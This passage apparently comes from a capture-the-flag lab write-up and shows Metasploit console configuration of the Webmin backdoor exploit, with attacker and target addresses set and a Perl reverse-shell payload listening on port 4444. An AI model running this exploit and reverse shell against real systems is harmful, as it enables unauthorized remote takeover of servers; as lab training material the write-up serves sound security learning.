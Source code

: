```bash

Exploit target:

   Id  Name
   --  ----
   0   Automatic (Unix In-Memory)



View the full module info with the info, or info -d command.
```

The output above is what the module had as defaults before I made any changes. Here are the changes I made:

```bash
msf6 exploit(linux/http/webmin_backdoor) > set lhost <attack_box_ip>
lhost => 10.10.129.14
msf6 exploit(linux/http/webmin_backdoor) > set rhosts target.thm
rhosts => 10.10.254.20
msf6 exploit(linux/http/webmin_backdoor) > set ssl true
[!] Changing the SSL option's value may require changing RPORT!
ssl => true
```

Here is what my options look like now after the changes:

```bash
msf6 exploit(linux/http/webmin_backdoor) > options

Module options (exploit/linux/http/webmin_backdoor):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     target.thm       yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      10000            yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path to Webmin
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  <attack_box_ip>  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


```